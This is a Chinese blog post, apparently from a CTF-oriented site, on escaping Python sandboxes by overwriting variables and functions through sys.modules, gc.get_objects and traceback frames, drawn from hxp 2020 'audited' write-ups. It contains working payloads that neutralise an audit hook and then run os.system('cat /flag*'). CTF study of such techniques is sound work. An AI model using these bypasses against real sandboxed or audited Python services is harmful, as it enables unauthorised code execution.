 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [dummykitty.github.io](https://dummykitty.github.io/posts/pyjail-bypass-06-%E5%8F%98%E9%87%8F%E8%A6%86%E7%9B%96%E4%B8%8E%E5%87%BD%E6%95%B0%E7%AF%A1%E6%94%B9/)

> 变量覆盖与函数篡改 在 Python 中，sys 模块提供了许多与 Python 解释器和其环境交互的功能，包括对全局变量和函数的操作。在沙箱中获取 sys 模块就可以达到变量覆盖与函数擦篡改的目的.

变量覆盖与函数篡改[](#变量覆盖与函数篡改)
-----------------------

在 Python 中，sys 模块提供了许多与 Python 解释器和其环境交互的功能，包括对全局变量和函数的操作。在沙箱中获取 sys 模块就可以达到变量覆盖与函数擦篡改的目的.

sys.modules 存放了现有模块的引用, 通过访问 `sys.modules['__main__']` 就可以访问当当前模块定义的所有函数以及全局变量

```
>>> aaa = 'bbb'
>>> def my_input():
...     dict_global = dict()
...     while True:
...       try:
...           input_data = input("> ")
...       except EOFError:
...           print()
...           break
...       except KeyboardInterrupt:
...           print('bye~~')
...           continue
...       if input_data == '':
...           continue
...       try:
...           complie_code = compile(input_data, '<string>', 'single')
...       except SyntaxError as err:
...           print(err)
...           continue
...       try:
...           exec(complie_code, dict_global)
...       except Exception as err:
...           print(err)
... 
>>> import sys
>>> sys.modules['__main__']
<module '__main__' (built-in)>
>>> dir(sys.modules['__main__'])
['__annotations__', '__builtins__', '__doc__', '__loader__', '__name__', '__package__', '__spec__', 'aaa', 'my_input', 'sys']
>>> sys.modules['__main__'].aaa
'bbb'
```

除了通过 sys 模块来获取当前模块的变量以及函数外, 还可以通过 `__builtins__`篡改内置函数等, 这只是一个思路.

总体来说, 只要获取了某个函数或者变量就可以篡改, 难点就在于获取.

### 利用 gc 获取已删除模块[](#利用-gc-获取已删除模块)

这个思路来源于 [writeup by fab1ano – github](https://github.com/fab1ano/hxp-ctf-20/tree/master/audited)

这道题的目标是覆盖 `__main__` 中的 `__exit` 函数, 但是题目将 `sys.modules['__main__']` 删除了, 无法直接获取.

```
for module in set(sys.modules.keys()):
    if module in sys.modules:
        del sys.modules[module]
```

`gc` 是 Python 的内置模块，全名为”garbage collector”，中文译为” 垃圾回收”。`gc` 模块主要的功能是提供一个接口供开发者直接与 Python 的垃圾回收机制进行交互。

Python 使用了引用计数作为其主要的内存管理机制，同时也引入了循环垃圾回收器来检测并收集循环引用的对象。`gc` 模块提供了一些函数，让你可以直接控制这个循环垃圾回收器。

下面是一些 `gc` 模块中的主要函数：

1.  `gc.collect(generation=2)`：这个函数会立即触发一次垃圾回收。你可以通过 `generation` 参数指定要收集的代数。Python 的垃圾回收器是分代的，新创建的对象在第一代，经历过一次垃圾回收后仍然存活的对象会被移到下一代。
2.  `gc.get_objects()`：这个函数会返回当前被管理的所有对象的列表。
3.  `gc.get_referrers(*objs)`：这个函数会返回指向 `objs` 中任何一个对象的对象列表。

exp 如下

```
for obj in gc.get_objects():
    if '__name__' in dir(obj):
        if '__main__' in obj.__name__:
            print('Found module __main__')
            mod_main = obj
        if 'os' == obj.__name__:
            print('Found module os')
            mod_os = obj
mod_main.__exit = lambda x : print("[+] bypass")
```

在 3.11 版本和 python 3.8.10 版本中测试发现会触发 gc.get_objects hook 导致无法成功.

### 利用 traceback 获取模块[](#利用-traceback-获取模块)

这个思路来源于 [writeup by hstocks – github](https://github.com/hstocks/ctf_writeups/blob/master/2020/hxp/audited/README.md)

主动抛出异常, 并获取其后要执行的代码, 然后将`__exit` 进行替换, 思路也是十分巧妙.

```
try:
    raise Exception()
except Exception as e:
    _, _, tb = sys.exc_info()
    nxt_frame = tb.tb_frame

    # Walk up stack frames until we find one which
    # has a reference to the audit function
    while nxt_frame:
        if 'audit' in nxt_frame.f_globals:
            break
        nxt_frame = nxt_frame.f_back

    # Neuter the __exit function
    nxt_frame.f_globals['__exit'] = print

    # Now we're free to call whatever we want
    os.system('cat /flag*')
```

但是实际测试时使用 python 3.11 发现 `nxt_frame = tb.tb_frame` 会触发 `object.__getattr__` hook. 不同的版本中触发 hook 的地方会有差异, 这个 payload 可能仅在 python 3.9 (题目版本) 中适用

参考资料[](#参考资料)
-------------

*   [Python 沙箱逃逸小结](https://www.mi1k7ea.com/2019/05/31/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%B0%8F%E7%BB%93/#%E8%BF%87%E6%BB%A4-globals)
*   [Python 沙箱逃逸的经验总结](https://www.tr0y.wang/2019/05/06/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93/#%E5%89%8D%E8%A8%80)
*   [Python 沙箱逃逸的通解探索之路](https://www.tr0y.wang/2022/09/28/common-exp-of-python-jail/)
*   [python 沙箱逃逸学习记录](https://xz.aliyun.com/t/12303#toc-11)
*   [Bypass Python sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)
*   [[PyJail] python 沙箱逃逸探究 · 上（HNCTF 题解 - WEEK1）](https://zhuanlan.zhihu.com/p/578986988)
*   [[PyJail] python 沙箱逃逸探究 · 中（HNCTF 题解 - WEEK2）](https://zhuanlan.zhihu.com/p/579057932)
*   [[PyJail] python 沙箱逃逸探究 · 下（HNCTF 题解 - WEEK3）](https://zhuanlan.zhihu.com/p/579183067)
*   [audited2](https://ctftime.org/writeup/31883)
*   [【ctf】HNCTF Jail All In One](https://www.woodwhale.top/archives/hnctfj-ail-all-in-one)
*   [HAXLAB — Endgame Pwn](https://ctftime.org/writeup/28286)
*   [Python 沙箱逃逸的 n 种姿势](https://ctftime.org/writeup/28286)
*   [hxp2020-audited](https://pullp.github.io/writeup/2020/12/26/hxp2020-audited.html)

This post is licensed under [CC BY 4.0](https://creativecommons.org/licenses/by/4.0/) by the author.